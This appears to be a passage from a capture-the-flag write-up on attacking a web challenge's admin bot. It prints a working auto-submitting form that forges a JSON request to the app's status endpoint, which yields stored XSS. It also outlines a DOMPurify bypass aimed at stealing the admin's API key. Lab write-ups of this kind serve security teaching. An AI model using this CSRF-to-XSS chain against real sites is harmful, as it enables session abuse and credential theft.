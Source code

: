 Looking at the bot source we see that it first logs in as admin to the application and then it visits the provided URL. So by hosting a page that contains an HTML page like the following:

```html
<html>
  <body>
	<form action="http://127.0.0.1:80/api/updateStatus" method="POST" enctype="text/plain">
		<input type="hidden" name='{{"status": "XSS","foo' value='":"b"}}' />
	</form>
	<script>document.forms[0].submit();</script>
  </body>
</html>
```

We can cause CSRF on the bot as the admin user that will be escalated to XSS.

#### XSS in "status" => Admin Key Theft

Because `/api/updateStatus` saves unescaped HTML in `$_SESSION['user']['status']`, any page rendering that status (e.g., the admin’s dashboard or the user profile) is at risk. For example:

```js
fetch('/api/user')
    .then(res => res.json())
    .then(user => {
    if (user.error) {
        window.location.href = '/login';
    } else {
        document.getElementById('apiKey').textContent = user.api_key;
        document.getElementById('userLevel').textContent = 'LVL ' + (user.level || 1);
        document.getElementById('userRank').textContent = user.rank || 'NOVICE';
        document.getElementById('userRole').textContent = (user.is_admin ? 'ADMIN' : 'USER');
        document.getElementById('magicPower').textContent = (user.magicPower || 50) + '%';
        document.getElementById('questsCompleted').textContent = user.questsCompleted || 0;
        
        const cleanStatus = DOMPurify.sanitize(user.status || 'Ready for adventure!', {
            USE_PROFILES: { html: true },
            ALLOWED_TAGS: ['a', 'b', 'i', 'em', 'strong', 'span', 'br'],
            FORBID_TAGS: ['svg', 'math'],
            FORBID_CONTENTS: ['']
        });

        document.getElementById('heroStatus').innerHTML = cleanStatus;

        const progressBar = document.querySelector('.retro-progress-bar');
        if (progressBar) {
            progressBar.style.width = (user.magicPower || 50) + '%';
        }
    }
});
```

Here we can see that the status is passed through `DOMPurify` and the set to `innerHTML`.

It is possible for us to bypass this XSS mitigation useing a techinque overviewed here: [https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes)
